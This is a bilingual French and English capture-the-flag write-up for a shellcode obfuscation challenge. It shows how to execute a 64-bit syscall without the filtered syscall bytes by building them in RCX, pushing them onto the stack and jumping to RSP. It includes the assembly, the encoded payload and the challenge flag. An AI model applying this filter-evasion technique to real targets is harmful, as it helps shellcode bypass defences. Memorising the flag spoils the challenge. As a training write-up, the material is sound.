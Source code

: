 # Shellcode Obfuscation 3
## Write-up
### Solution (Français)
Ici les contraintes qui nous sont données sont de ne pas utiliser les bytes "\x05\x0f", qui sont les bytes pour faire un syscall. La difficultée viens du fait qu'on ne peux pas manipuler les bytes passées. Il faut donc trouver comment executer un syscall sans l'instruction syscall.

Utiliser int 0x80 ne fonctionne pas étant donnée qu'on est en 64bit

Une des façons de faire notre syscall est de stocker les bytes "\x05\x0f" et d'utiliser une instruction jmp pour ensuite faire notre syscall.

Comme on ne veut pas modifier nos registres précedents, on peut utiliser le registre RCX pour pousser notre code. 
On mov 0x04 et 0x0e(pour éviter d'avoir nos bytes interdits dans le payload) dans CH et CL respectivement pour avant des les incrémenter. 
On les pousse dans le stack et on peut ensuite les executer en sautant a RSP

Voici le code pour faire ça:
``` assembly
BITS 64 
push 0x1010101 ^ 0xa46
xor dword [rsp], 0x1010101
mov rax, 0x5443646574696e55
push rax
push 1
pop rdi
push 0x10
pop rdx
mov rsi, rsp
push 1
pop rax

xor rcx,rcx
mov ch,0x04
inc ch
mov cl,0x0e
inc cl
push rcx
jmp rsp
```
La première partie setup le syscall pour write, et la deuxieme l'execute.

Payload: `\x68\x47\x0b\x01\x01\x81\x34\x24\x01\x01\x01\x01\x48\xb8\x55\x6e\x69\x74\x65\x64\x43\x54\x50\x6a\x01\x5f\x6a\x10\x5a\x48\x89\xe6\x6a\x01\x58\x48\x31\xc9\xb5\x04\xfe\xc5\xb1\x0e\xfe\xc1\x51\xff\xe4`

Flag: `flag-R6YA2C3DZ8V7T9JPX9F3K7ZQ2JPXLMN4`

### Solution (English)
Here, the constraints given to us are not to use the "\x05\x0f" bytes, which are the bytes for a syscall. The difficulty lies in the fact that we can't manipulate past bytes. So we need to find a way of executing a syscall without the syscall instruction.

Using int 0x80 doesn't work, given that we're in 64bit.

One way of doing our syscall is to store the bytes ""\x05\x0f" and then use a jmp instruction to do our syscall.

As we don't want to modify our previous registers, we can use the RCX register to push our code. 
We move 0x04 and 0x0e (to avoid having our forbidden bytes in the payload) into CH and CL respectively before incrementing them. 
We then push them into the stack and can execute them by jumping to RSP.

Here's the code to do this:
```assembly
BITS 64 
push 0x1010101 ^ 0xa46
xor dword [rsp], 0x1010101
mov rax, 0x5443646574696e55
push rax
push 1
pop rdi
push 0x10
pop rdx
mov rsi, rsp
push 1
pop rax

xor rcx,rcx
mov ch,0x04
inc ch
mov cl,0x0e
inc cl
push rcx
jmp rsp
```
The first half setups the write syscall, and the second executes it.

Payload: `\x68\x47\x0b\x01\x01\x81\x34\x24\x01\x01\x01\x01\x48\xb8\x55\x6e\x69\x74\x65\x64\x43\x54\x50\x6a\x01\x5f\x6a\x10\x5a\x48\x89\xe6\x6a\x01\x58\x48\x31\xc9\xb5\x04\xfe\xc5\xb1\x0e\xfe\xc1\x51\xff\xe4`

Flag: `flag-R6YA2C3DZ8V7T9JPX9F3K7ZQ2JPXLMN4`
